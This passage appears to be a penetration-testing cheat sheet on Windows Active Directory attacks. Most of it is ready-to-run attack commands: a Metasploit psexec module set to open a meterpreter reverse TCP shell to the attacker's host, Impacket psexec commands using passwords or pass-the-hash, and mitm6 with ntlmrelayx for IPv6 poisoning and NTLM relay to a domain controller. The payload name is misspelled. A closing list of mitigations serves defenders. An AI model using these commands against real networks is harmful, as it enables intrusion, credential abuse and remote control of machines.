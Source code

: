 [Impacket Github link](https://github.com/SecureAuthCorp/impacket)

metasploit
```
use exploit/windows/smb/psexec
set RHOST ip
set SMBDOMAIN domain.name
set SMBUSER username
set SMB PASS password
set PAYLOAD windows/x64/meterpreter/reverese_tcp
set LHOST ip
set LPORT port
run
```

manual
```
# authenticate with password
psexec.py domain.name/username:password@ip

# authenticate with pass the hash
psexec.py domain.name/username@ip -hashes hash
```

### mitm6

[mitm6 Github link](https://github.com/fox-it/mitm6)

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

mitm6
```
mitm6 -d domain.name
```

ntlmrelayx
```
ntlmrelayx.py -6 -t ldaps://dc-ip -wh fake.domain.name -l lootme
```

[Combining NTLM Relays and Kerberos Delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

Mitigation:

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4-only environments. If you don't use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working: 
* a. (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In) 
* b. (Inbound) Core Networking - Router Advertisement (ICMPv6-1n) 
* c. (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out) 
2. If WPAD is not in use internally, disable it via Group Policy and by disabling the Win HttpAutoProxySvc service. 
3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding. 
4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation. 
